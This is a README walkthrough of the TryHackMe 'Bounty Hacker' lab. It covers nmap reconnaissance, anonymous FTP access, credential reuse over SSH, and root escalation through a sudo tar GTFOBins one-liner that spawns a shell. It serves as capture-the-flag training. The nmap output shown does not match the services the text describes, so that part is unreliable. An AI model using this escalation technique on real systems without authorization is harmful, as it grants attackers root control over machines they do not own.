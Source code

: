# Bounty Hacker Project README 🚀

## Overview

The "Bounty Hacker" project is a simulated cybersecurity challenge designed to test and improve your penetration testing skills. Participants are tasked with proving their mettle as the most elite hacker in the solar system by overcoming a series of tasks. The scenario involves a hacker boasting about their skills in a bar, leading to a challenge by a group of Bounty Hunters to prove these claims. The challenge encompasses various stages, including reconnaissance, exploitation, and privilege escalation.

### Setting Up the Environment

1. **Connect to the THM (TryHackMe) VPN** to access the challenge environment.
   ```bash
   sudo openvpn yourvpnconfig.ovpn
   ```
2. **Verify the VPN connection** is established to ensure access to the challenge network.

## Usage Guide

### Task 1: Reconnaissance

Start by deploying the machine and performing network scanning to discover open ports and services. This can be achieved using Nmap:
```bash
nmap -sC -sV -Pn <machine-ip>
```
- `-sC`: Runs a script scan using the default set of scripts.
- `-sV`: Probes open ports to determine service/version info.
- `-Pn`: Treats all hosts as online -- useful for scanning through VPN.

```bash
    PORT     STATE SERVICE     VERSION
    22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
    |   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
    |_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
    80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html).
    139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
    8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
    | ajp-methods: 
    |_  Supported methods: GET HEAD POST OPTIONS
    8080/tcp open  http        Apache Tomcat 9.0.7
    |_http-title: Apache Tomcat/9.0.7
    |_http-favicon: Apache Tomcat
    Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Task 2: Gaining Access

1. **Identify services and vulnerabilities** based on the Nmap scan results. Typically, you'll find services like SSH and FTP open.
2. **Explore the FTP service** using an anonymous login to retrieve any accessible files. This often involves finding user names or potential password files.
   ```bash
        ftp <machine-ip>
   ```
   Use `anonymous` as the username.
3. **Use the discovered credentials** to access other services, such as SSH, to gain a user shell on the machine.

### Task 3: Privilege Escalation

1. **Enumerate the system** for misconfigurations or exploitable conditions. Tools like `sudo -l` can reveal commands the user can run with superuser privileges.

```bash
    User may run the following commands on this host:
        (root) /bin/tar
```

2. **Exploit these conditions** to gain elevated privileges. 

This permission allows us to execute `tar` with root privileges, presenting a pathway to escape restricted environments or enhance our privilege level.

A technique found on [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) demonstrates how `tar` can be exploited to spawn a shell with elevated privileges. GTFOBins is a valuable resource that collects snippets exploiting the binaries to bypass local security restrictions.

#### The Command

To exploit this, we use the following command:

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

#### Breakdown

- `sudo tar` invokes `tar` with superuser privileges.
- `-cf /dev/null /dev/null` specifies creating an archive with no files, effectively doing nothing, which serves as a pretext to use other options.
- `--checkpoint=1` sets a checkpoint after every file processed. Since no files are being archived, this checkpoint triggers immediately.
- `--checkpoint-action=exec=/bin/sh` executes a shell (`/bin/sh`) when the checkpoint is reached.

## Conclusion

This README provides a structured and comprehensive guide to the `"Bounty Hacker"` project, ensuring that participants have a clear understanding of the objectives, the steps required to complete the challenge, and how to contribute to the project.